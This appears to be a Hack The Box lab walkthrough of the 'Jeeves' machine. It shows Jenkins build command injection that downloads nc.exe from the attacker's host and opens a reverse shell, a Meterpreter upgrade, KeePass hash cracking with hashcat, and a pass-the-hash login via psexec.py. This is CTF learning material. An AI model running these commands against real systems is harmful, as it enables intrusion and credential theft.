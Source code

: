 ```yaml
---
title: "Jeeves Walkthrough(Hack The Box)"
date: 2025-04-07
draft: false
description: "a description"
tags: ["Medium", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```

## Reconnaissance #Windows 
- We got port 135, 80, 445 open as in initial scan.
- ![[Pasted image 20241215194409.png]]
- We got a web application page running with a search option for articles , and others too
- Its running on windows 10 and the search option leads to a error page surprisingly. Also it's a SQL error.
- ![[Pasted image 20241215145119.png]]
- We got server info from the error
- ![[Pasted image 20241215145414.png]]
- I have tried all the things to directory to host enumeration it all failed . The reason is I overlooked a port which is 50000. This port is also had a web page on it.
## Enumeration
- On doing directory enumeration I can a directory in the output
```
 ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://jeeves.htb:50000/FUZZ -t 60
```
- ![[Pasted image 20241215194726.png]]
- After accessing the directory I was so happy to see jenkins. Then I got access easily by injecting this command to download nc from my my machine on the project build.
## Exploitation
- `powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.4:8000/nc.exe' -OutFile 'C:\Windows\Temp\good.exe'"`
- Executed it using next build command `C:\\Windows\Temp\good.exe <ip> <port> -e cmd.exe`
- Soon after getting user flag I tried this `whoami /priv` and saw seimpersonate token set enabled and tried some of the attacks from metasploit but failed.
- Initially to transfer this shell to meterpreter I used `exploit/multi/script/web_discovery` for the payload `windows/meterpreter/reverse_tcp` cause x64 was not working.
- This above module helped me to create a meterpreter shell by giving me a command to paste in the shell session I had.
- Soon after executing the command and got meterpreter access.
- As I didn't had any luck with potato attacks. I decided to check other directories and found a file in the Documents folder for our user. Which was CEH.kdbd.
- which is keepass db file so it required master key to unlock it.
- I used  john to generate hash and then hashcat to crack it.
```
keepass2john CEH.kdbd >> kdbd.hash
```
- Then..
```
hashcat kdbd.hash  /usr/share/wordlists/rockyou.txt --user -m 13400
```
- I used `--user` flag as hash started with name CEH.
- we got the password which is `<Redacted>`
- ![[Pasted image 20241215201728.png]]
- I opened the db using `kpcli --kdb CEH.kdbx` and provided master password when prompted
- Only a password hash sounded interesting to me
- ![[Pasted image 20241215201952.png]]
## Privilege Escalation
- I checked the hash sanity as Administrator to machine's share using crackmapexec and got a hit
```
crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
- ![[Pasted image 20241215202113.png]]
- Now using psexec.py I initiated pass the hash attack and to prompt shell
- `psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe`
- ![[Pasted image 20241215202422.png]]
- Administrator's Desktop folder had this hm.txt which said to look elsewhere for root flag but by issuing `dir /R` we got to see the alternate data streams for the files.
- ![[Pasted image 20241215202656.png]]
- To read the contents of the root flag I typed `more < hm.txt:root.txt`
- ![[Pasted image 20241215202910.png]]
